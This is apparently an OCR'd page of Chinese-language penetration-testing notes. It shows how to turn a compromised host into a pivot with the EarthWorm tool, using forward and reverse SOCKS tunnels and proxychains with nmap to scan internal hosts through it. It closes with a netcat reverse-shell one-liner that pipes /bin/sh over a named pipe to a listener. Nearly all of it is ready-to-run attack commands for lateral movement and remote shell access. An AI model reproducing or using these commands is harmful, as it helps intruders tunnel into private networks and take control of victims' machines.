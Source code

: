 >
> ****正向：****
>
> **被攻击机(跳板)：** 
>
> temp 目录下:
>
> > unzip ew.zip
> >
> > file /sbin/init (查看 linux 位数)
> >
> > chmod 755 ew_for_Linux
> >
> > ./ew_for_Linux -s ssocksd -l 9999 (侦听 0.0.0.0:9999)
> >
> > netstat -pantu|grep 9999 (查看是否侦听成功)
>
> **攻击机：**
>
> > proxychain 设置 socks5 为跳板 ip port
> >
> > proxychain nmap 即可以用跳板代理扫描其他主机
>
> ****反向：****
>
> **攻击机：**
>
> > chmod 777 ./ew_for_linux64
> >
> > ./ew_for_linux -s rcsocks -l 1080 -e 2333 即被攻击机连接本机 2333 端口，转发到本机的 1080 端口，访问本机的 1080 端口，相当访问被攻击机的 2333
>
> 设置 
>
> > proxychain socks5 本主机 ip port：1080
> >
> > proxychain 代理即可
>
> **被攻击机：**
>
> > chmod 777 ew_for_linux
> >
> > ./ew_for_Linux32 -s rssocks -d 192.168.1.100 -e 2333
>
> ### nc
>
> nc 简单使用
>
> > https://tom0li.github.io/2017/05/06/nc/
>
> linux root 权限
>
> > mknod /tmp/backpipe p  
> >
> > /bin/sh 0</tmp/backpipe | nc ip port 1>/tmp/backpipe
>
> 权限不够用 
>
> > ```
> > mkfifo /tmp/backpipe
> > ```
>
> 以上用 nc 监听即可
>